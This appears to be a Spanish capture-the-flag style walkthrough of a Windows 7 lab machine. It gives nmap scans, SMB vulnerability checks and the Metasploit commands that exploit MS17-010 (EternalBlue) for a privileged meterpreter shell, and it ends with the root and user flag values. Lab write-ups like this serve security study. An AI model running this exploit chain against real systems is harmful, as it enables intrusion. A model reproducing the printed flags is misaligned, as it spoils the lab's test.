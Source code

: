 
![[ 20250709103540.png]]

# Nmap

empezamos con un escaneo de puertos básicos con nmap 

```bash
nmap -p- --open --min-rate 5000 -sS -n -Pn 10.129.211.94 -oN scanner
```

![[ 20250709103640.png]]

seguimos con un escaneo de servicios y versiones con nmap

```bash
nmap -p135,139,445,49152,49153,49154,49155,49156,49157 -sCV 10.129.211.94 -oN targeted
```

![[ 20250709103734.png]]

aqui ya podemos ver la version windows 7 professional y vemos un usuario haris

# Autorecon

![[ 20250709103919.png]]

vemos el resultado de _full_tcp_nmap.txt_ y comprobamos que esta corriendo `Microsoft Windows 7|2008|8.1|2012|Vista|2016|10`

buscamos informacion en google

![[ 20250709104045.png]]

vemos que puede ser vulnerable a varias cosas asi que veamos con nmap scripts si nuestra victima es vulnerable

# Nmap scripts smb

lo primero es ver que scripts tenemos disponibles en nmap

```bash
ls /usr/share/nmap/scripts/ | grep smb
```

![[ 20250709104221.png]]

vemos varias pero las señaladas son las mas interesantes debido el resultado de la búsqueda en google

probamos 

```bash
nmap -p445 --script smb-vuln-ms10-061,smb-vuln-ms10-054,smb-vuln-ms17-010 -sV 10.129.211.94
```

![[ 20250709104411.png]]

vemos que es vulnerable a la vulnerabilidad `ms17-010`

# Metasploit

abrimos metasploit 

```bash
msfdb run
```

buscamos por la vulnerabilidad ms17-010

```bash
search ms17-010
```

![[ 20250709104602.png]]

podemos ver varios resultados

en mi caso elijo el modulo en la posición 0 ya que es el primero que aparece en caso de no funcionar seguiría probando con el resto

```bash
use 0
```

cambiamos el rhosts por la Ip victima (para ver las opciones de lo que podemos cambiar debemos usar el comando `options`)

```bash
set rhosts IPVICTIMA
```

con esto listo lanzamos el exploit

```bash
exploit
```

![[ 20250709104843.png]]

conseguimos una terminal como meterpreter con privilegios absolutos

# Flags

## Root

en el directorio `C:\Users\Administrator\Desktop` encontramos `root.txt`

![[ 20250709105020.png]]

root : fb20701fe3f28b9fbffcb452c7d6434a
## User

en el directorio `C:\Users\haris\Desktop` encontramos `user.txt`

![[ 20250709105122.png]]

user : 894ecdaf91fbd5713acf4fb76827d805

